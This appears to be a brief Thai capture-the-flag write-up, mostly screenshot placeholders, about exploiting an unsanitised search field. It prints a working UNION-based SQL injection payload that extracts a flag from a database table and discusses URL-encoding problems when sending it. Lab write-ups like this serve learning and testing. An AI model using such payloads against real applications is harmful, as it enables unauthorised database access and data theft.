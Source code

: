 


![alt text](image-2.png)

ไม่มี validate imput ,sanitize input เลย ทำ SQL Injection ได้

![alt text](image-1.png)

![alt text](image.png)

SELECT * FROM inventory WHERE name LIKE '%%' UNION SELECT 1,flag,'','','2024-01-16 14:22:00' FROM flag; -- -%'

ปัญหาที่เจอ

![alt text](image-4.png)

พยายามไม่ใช้ burp url encode ทำ SQL payload บน browser เลย

![alt text](image-3.png)

รัน docker แล้ว console.log(`Executing query: ${sqlQuery}`); จะสังเกตว่า มันไม่ยอม decode ให้ น่าจะเจอ %% ติดกันแล้วงง

![alt text](image-5.png)

![alt text](image-6.png)



